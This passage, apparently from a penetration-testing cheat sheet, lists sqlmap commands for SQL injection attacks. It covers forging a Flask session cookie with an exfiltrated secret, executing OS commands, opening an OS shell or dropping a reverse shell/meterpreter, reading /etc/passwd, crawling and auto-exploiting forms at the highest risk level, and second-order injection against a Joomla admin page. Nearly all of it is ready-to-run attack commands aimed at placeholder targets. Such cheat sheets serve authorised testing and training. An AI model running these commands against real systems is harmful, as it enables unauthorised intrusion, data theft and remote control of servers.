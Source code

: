### Indicate string when injection is successful

```bash
--string="string_showed_when_TRUE" 
```

### Eval

**Sqlmap** allows the use of `-e` or `--eval` to process each payload before sending it with some python oneliner. This makes very easy and fast to process in custom ways the payload before sending it. In the following example the **flask cookie session** **is signed by flask with the known secret before sending it**:

```bash
sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump
```

### Shell

```bash
#Exec command
python sqlmap.py -u "http://example.com/?id=1" -p id --os-cmd whoami

#Simple Shell
python sqlmap.py -u "http://example.com/?id=1" -p id --os-shell

#Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1" -p id --os-pwn
```

### Read File

```bash
--file-read=/etc/passwd
```

### Crawl a website with SQLmap and auto-exploit

```bash
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--crawl = how deep you want to crawl a site
--forms = Parse and test forms
```

### Second Order Injection

```bash
python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```
